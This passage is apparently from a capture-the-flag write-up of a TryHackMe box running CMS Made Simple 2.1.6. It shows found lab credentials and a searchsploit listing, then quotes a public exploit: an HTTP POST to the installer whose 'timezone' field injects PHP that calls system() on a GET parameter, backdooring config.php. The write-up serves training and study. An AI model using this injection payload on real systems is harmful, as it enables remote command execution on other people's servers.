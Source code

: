 **That looks like a credentials!**

- Username: cmsmsuser
- Password: devpass

## Initial Foothold

In the `robots.txt`, it's **disallowing web crawler to index `/cmsms/cmsms-2.1.6-install.php`.**

**Let's find public exploits for this version of CMS Made Simple via `searchsploit`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# searchsploit CMS Made Simple 2.1.6
--------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Side Template Injection         | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                       | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                          | php/webapps/44192.txt
CMS Made Simple < 2.2.10 - SQL Injection                                               | php/webapps/46635.py
--------------------------------------------------------------------------------------- ---------------------------------
```

**Hmm... Let's look at the Remote Code Execution, `44192.txt`.**
```
1.Description
Arbitrary PHP code can be injected into configuration file (config.php) after installation has been finished. In order to inject PHP code, fresh install and valid database credentials is required. Application will force an installer (usually "www-data" due to web-based installation) to set a write permission (777) to destination directory and related installation file. An attacker will proceed installation process until reach step 4 and inject malicious PHP code into "timezone" parameter. Once PHP code has been injected to "config.php", an attacker will be able to execute OS command by accessing backdoor "config.php" file along with injected parameter which contain OS command value.

2.Proof of Concept
- Access to "http://target/path/cmsms-2.1.6-install.php" for installing CMS Made Simple
- Proceed to step 4 of installation which is database setup stage, enter a valid database credentials and modifying "timezone" parameter on intercepted proxy as following:

==========
POST /cms/cmsms-2.1.6-install.php/index.php?mdf68c24c=4 HTTP/1.1
Host: 192.168.5.196
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.5.196/cms/cmsms-2.1.6-install.php/index.
php?mdf68c24c=4
Cookie: CMSICc861538bbb=i549m59qpme0u9klupbkb68me4
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

dbhost=localhost&dbname=cms&dbuser=xvwa&dbpass=xvwa&
timezone=junk';echo%20system($_GET['cmd']);$junk='junk&next=Next+%E2%86%92
==========
```